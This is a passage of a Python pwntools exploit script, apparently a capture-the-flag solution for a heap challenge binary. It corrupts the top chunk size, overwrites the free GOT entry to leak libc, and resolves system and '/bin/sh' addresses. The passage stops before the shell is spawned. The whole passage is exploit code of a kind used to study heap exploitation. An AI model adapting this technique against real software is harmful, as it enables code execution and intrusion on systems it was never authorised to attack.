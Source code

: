 ```python
    else:
        p.sendline(payload)

def destory(name, ac=True):
    payload = 'destory ' + name
    if ac:
        p.sendlineafter('accept\n', payload)
    else:
        p.sendline(payload)

l = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)
i64_max = (1<<64)-1

def pwn_world():
    p.sendline('./next')
    p.sendlineafter('?\n', 'create')
    p.recvuntil('address is: ')
    heap_addr = int(p.recvline(), 16) - 0x10
    success("heap_addr -> %s" % hex(heap_addr))
    p.sendafter('name: ', 'a'*0xf8 + p64(i64_max))

    create(0x18, 'aaa', False)
    create(0x18, 'bbb')
    create(0x18, 'ccc')
    create(0x18, 'ddd')
    create(0x18, 'eee')
    destory('ccc')

    free_got = 0x602018

    # create(str(free_got - heap_addr - 0x100 - 0x80 - 0x18 - 0xc0), 'bbbb')
    create(str(free_got - 0x28 - (heap_addr + 0x240)), 'bbbb')

    destory('ddd')
    destory('aaa')

    call_puts = 0x4010CF

    payload  = 'a'*8
    payload += p64(call_puts).replace(b'\x00',b'\t')[:-1]
    create(0x88, payload)

    create(0x28, 'a'*0x10)

    p.sendlineafter('accept\n', 'create')

    payload  = p64(0)
    payload += p32(0) + p32(2)
    payload += p64(0x6020e0)
    payload += p64(0x602030)
    payload += '\x00' * (0xf8-0x20)
    payload += p64(i64_max)
    p.sendafter('name: ', payload)

    destory('world', False)
    p.recvuntil('world.\n')
    l.address = u64(p.recv(6)+'\0\0') - l.sym.puts
    success('libc_address -> %s' % hex(l.address))

    system = l.sym.system
    binsh = l.search('/bin/sh\0').next()
    success('system -> %s' % hex(system))
    success('/bin/sh -> %s' % hex(binsh))
```